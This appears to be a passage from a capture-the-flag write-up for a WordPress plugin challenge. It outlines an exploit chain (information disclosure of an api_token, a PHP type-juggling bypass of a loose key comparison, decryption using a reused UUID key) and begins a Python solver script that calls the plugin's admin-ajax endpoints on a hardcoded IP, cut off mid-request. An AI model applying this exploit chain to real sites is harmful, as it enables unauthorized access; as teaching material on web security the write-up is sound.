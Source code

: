 *   First, exploit information disclosure to get the `api_token`.

*   Use PHP type juggling to bypass this check: `$data['encryption_key'] != $this->encryption_key`.

*   Reuse the UUID to decrypt and get the `encryption_key`:

    Related method:

          ```php
              private function get_encrypted_config() {
                  $config = array(
                      'status' => 'draft',
                      'permissions' => array(
                          'view' => true,
                          'edit' => false
                      ),
                      'encryption_key' => $this->encryption_key
                  );
                  
                  $uuid = substr($this->encryption_key, 0, 16);
                  $encrypted = openssl_encrypt(
                      json_encode($config),
                      'AES-256-CBC',
                      $uuid,
                      0,
                      $uuid
                  );
                  
                  return base64_encode($uuid . base64_decode($encrypted));
              }
          ```

*   Finally, use the `encryption_key` to tamper with the token so we can access the flag.

## Solver

poc.py

    ```python
    import httpx
    import asyncio
    import re
    import json
    import subprocess

    # URL = "http://172.26.119.33:9192/"
    URL = "http://52.77.81.199:9192/"
    class BaseAPI:
        def __init__(self, url=URL) -> None:
            self.c = httpx.AsyncClient(base_url=url)

        def wp_login(self, username: str, password: str) -> None:
            return self.c.post("/wp-login.php", data={
                "log": username,
                "pwd": password
            })
        def handle_preview_request(self, post_id):
            return self.c.get("/wp-admin/admin-ajax.php", params={
                "action": "patchstack_scheduler_preview",
                "post_id": post_id
            })
        def patchstack_scheduler_compare(self, api_token):
            return self.c.post("/wp-admin/admin-ajax.php?action=patchstack_scheduler_compare", json={
                "api_token": api_token,
                "encryption_key": True,
                "revision_data": {